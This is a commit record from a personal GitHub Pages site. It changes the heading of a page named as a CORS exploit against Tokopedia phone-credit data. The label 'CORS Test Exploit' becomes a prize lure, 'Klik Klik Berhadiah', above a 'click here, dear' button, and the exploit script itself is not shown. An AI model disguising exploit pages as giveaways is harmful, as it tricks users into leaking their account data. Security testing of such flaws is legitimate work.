

Before and after one commit to bayufedra/bayufedra.github.io, a plain HTML site: page cors-exploit-pulsa-data-tokped.html in a window 1280 px wide. Shown: the full height of the page, 0-640 px from the left. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update cors-exploit-pulsa-data-tokped.html

```diff
--- a/cors-exploit-pulsa-data-tokped.html
+++ b/cors-exploit-pulsa-data-tokped.html
@@ -4,7 +4,7 @@
 	<title>Klik Klik Berhadiah</title>
 </head>
 <body>
-<h3>CORS Test Exploit</h3>
+<h3>Klik Klik Berhadiah</h3>
 <button type="submit" onclick="submit()">Klik disini sayang!</button><br>
 <pre id="result"></pre>
 <script type="text/javascript">
```
